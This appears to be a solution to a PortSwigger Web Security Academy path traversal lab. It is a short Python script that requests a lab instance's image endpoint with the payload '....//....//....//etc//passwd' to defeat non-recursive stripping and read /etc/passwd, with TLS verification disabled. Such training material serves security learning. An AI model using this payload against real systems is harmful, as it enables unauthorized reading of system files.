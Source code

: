 # Lab: File path traversal, traversal sequences stripped non-recursively

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

Solution: 

```python
import requests

response = requests.get(
    'https://0af000710374374dc343f638005c00e0.web-security-academy.net/image?filename=....//....//....//etc//passwd',
    verify=False,
)

print(response.text)
```